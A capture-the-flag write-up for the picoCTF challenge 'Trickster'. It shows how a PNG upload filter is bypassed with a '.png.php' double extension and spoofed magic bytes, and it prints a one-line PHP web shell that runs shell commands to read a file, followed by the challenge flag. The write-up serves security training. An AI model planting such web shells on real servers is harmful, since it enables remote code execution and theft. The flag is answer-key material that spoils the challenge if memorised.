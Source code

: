 # Trickster 
I found a web app that can help process images: PNG images only!
Additional details will be available after launching your challenge instance.

## Solution
We are given a simple website that supports PNG uploads. After trying some simple attacks (uploading PHP files to get some information), I only got slightly useful feedback. I could have used this information to slowly guess the correct payload, but I decided to check `robots.txt` to see if it revealed any useful information. The following content was available in the text file:

```
User-agent: *
Disallow: /instructions.txt
Disallow: /uploads/
```
/instructions.txt reads as follows:

```
Let's create a web app for PNG Images processing.
It needs to:
Allow users to upload PNG images
	look for ".png" extension in the submitted files
	make sure the magic bytes match (not sure what this is exactly but wikipedia says that the first few bytes contain 'PNG' in hexadecimal: "50 4E 47" )
after validation, store the uploaded files so that the admin can retrieve them later and do the necessary processing.
```
This means that we can upload a file as long as ".png" is in the name. We can name the file ".png.php", so that it is still a php file, but fills the requirement of including ".png"

We found the upload page at /upload/ and we can access the file we uploaded from here.

This means that we can create a malicious PHP file, that the server will think is a PNG image. We can then access the malicious file from `/uploads/[file].png.php` and make it run arbitrary PHP code.

I made the following PHP file to get the flag:

```php
PNG

<?php echo shell_exec("cat ../MQZWCYZWGI2WE.txt");?>
```

To find the location of the flag I had to run `ls` in a few directories.

 
 picoCTF{c3rt!fi3d_Xp3rt_tr1ckst3r_d3ac625b}
